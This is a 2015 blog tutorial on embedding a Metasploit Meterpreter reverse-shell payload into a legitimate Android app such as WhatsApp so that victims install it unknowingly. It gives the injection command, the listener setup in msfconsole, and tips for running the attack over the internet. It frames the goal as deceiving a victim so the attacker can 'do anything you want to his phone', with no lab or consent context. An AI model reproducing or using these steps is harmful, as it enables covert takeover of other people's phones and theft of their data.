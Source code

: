 ```yaml
---
layout: post
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
slug: embed-metasploit-payload-in-apk-easily
title: Embed a Metasploit Payload in an Original .apk File | Part 1 - The Easy Way
tags:
  - Android
  - Hacking
  - Metasploit
  - Kali Linux
published: true
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track.

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the ‘Meterpreter’, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means (usually involving Social Engineering), and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing (read, hacking). You should also install the latest version of ‘ApkTool’ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console:
```console
apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a WhatApp.apk as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used `192.168.0.104` as the Local IP address, i.e. your IP address and `4895` as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the LPORT can be set to any reasonable port no.

_NOTE_ – If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the LHOST option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to /root/original.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an <activity> tag which contains both the texts ‘.MAIN’ and ‘.LAUNCHER’. When you find that tag, look for the ‘android:name’ attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get a apk file in your root directory with the name ‘backdoored_WhatsApp.apk’. It will install and run just like the original app.

As for the listener, you should use multi/handler and set the corresponding options accordingly. Just run the following commands.

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/screenshot-from-2015-12-18-143255.png)


### Note:

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits:

I found the script from the comments section of a thread in NullByte, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to timwr and Jack64.
